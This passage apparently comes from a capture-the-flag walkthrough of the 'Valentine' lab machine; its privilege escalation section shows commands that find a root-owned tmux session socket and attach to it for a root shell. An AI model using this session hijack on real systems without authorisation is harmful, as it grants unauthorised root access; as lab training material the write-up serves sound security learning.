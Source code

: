 (We must do a little change because of the keys).

## Privilege Escalation

We can see a process running under root, `tmux`:

```console
hype@Valentine:~$ ps aux | grep tmux
root       1004  0.0  0.1  26416  1668 ?        Ss   09:59   0:03 /usr/bin/tmux -S /.devs/dev_sess
hype       5150  0.0  0.0  13576   924 pts/0    S+   12:20   0:00 grep --color=auto tmux
```

This session can be easily hijacked:

```console
hype@Valentine:~$ tmux -S /.devs/dev_sess

root@Valentine:/home/hype#
```
